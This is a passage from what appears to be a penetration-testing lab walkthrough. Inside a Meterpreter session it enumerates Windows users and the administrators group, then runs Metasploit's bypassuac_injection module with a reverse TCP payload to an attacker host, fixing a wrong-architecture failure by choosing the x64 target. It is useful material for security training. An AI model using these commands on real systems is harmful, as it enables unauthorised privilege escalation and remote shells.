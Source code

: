 ```bash
shell
```

- On the Windows target `cmd`

```bash
net users
	admin Administrator Guest

net localgroup administrators
    Members
    -------------
    admin
    Administrator
# Yes, "admin" is part of the Administrators group
# but doesn't have administrative privileges through the Meterpreter session
exit
```

#### Bypass UAC

```bash
background
sessions
	2 meterpreter x64/windows VICTIM\admin @ VICTIM 10.10.24.6:4444 -> 10.2.18.116:49219 (10.2.18.116)
```

```bash
search bypassuac
use exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
set SESSION 2
set LPORT 5533
run
```

```bash
[*] Started reverse TCP handler on 10.10.24.6:5533 
[+] Windows 2012 R2 (6.3 Build 9600). may be vulnerable.
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[-] Exploit aborted due to failure: bad-config: x86 Target Selected for x64 System
[*] Exploit completed, but no session was created.
```

- Select the correct target - `x64`

```bash
set TARGET Windows\ x64
run
```
